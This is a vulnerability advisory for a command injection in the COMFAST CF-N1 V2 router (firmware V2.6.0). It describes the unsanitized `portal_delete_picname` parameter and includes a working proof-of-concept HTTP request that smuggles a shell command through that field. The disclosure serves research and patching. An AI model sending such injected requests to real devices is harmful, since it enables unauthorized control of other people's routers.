 # COMFAST CF-N1 V2 V2.6.0 Command Injection in `wifilith_delete_pic_file`

Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) within the `wifilith_delete_pic_file` API (`/usr/bin/webmgnt`, function `sub_417888`). Attackers can inject arbitrary commands via the `portal_delete_picname` parameter, enabling unauthorized execution of system commands, access to sensitive information, or full compromise of the device.



![Vulnerability Overview Diagram](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: [http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=wifilith_delete_pic_file`

*   **Vulnerability**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability originates in the `sub_417888` function handling the `wifilith_delete_pic_file` section. Disassembly analysis shows that the user-controlled `portal_delete_picname` parameter is unsanitized and directly incorporated into a system command via `sprintf_0` before execution by `system_0`.

Key code flow:



1.  User input (including `portal_delete_picname`) is parsed via `blobmsg_parse_0` and extracted as a configuration parameter.

2.  The parameter value is inserted into a command string using `sprintf_0` (likely constructing a file deletion command template, e.g., `rm -f /etc/wifilith/%s`).

3.  The constructed command is executed via `system_0` without input sanitization, allowing injection of arbitrary commands through delimiters like `;`, `&&`, or `#`.

This direct concatenation of unvalidated input into executable commands enables attackers to bypass intended file deletion operations and execute malicious code.



![Disassembly Snippet: Vulnerable Code Path](./imgs/1.png)



![Command Execution Flow](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: Inject Command to Write Test File



```
POST /cgi-bin/mbox-config?method=SET&section=wifilith_delete_pic_file  HTTP/1.1
Host: cflogin.cn
Content-Length: 69
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/guide/guide_router.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567
Connection: close

{"portal_delete_picname": "; echo delete >  /www-comfast/test.txt #"}
```



*   **Notes**: The vulnerable parameter is `portal_delete_picname`, exploited using `;` to terminate the original command context and `#` to comment out remaining syntax.

*   **Steps**:

1.  Send the POST request using tools like Burp Suite or `curl`.

2.  Access `http://cflogin.cn/test.txt` to verify command execution.

*   **Result**: The file `/www-comfast/test.txt` is created with the content "delete", confirming successful injection.



![PoC Execution Result](./imgs/3.png)

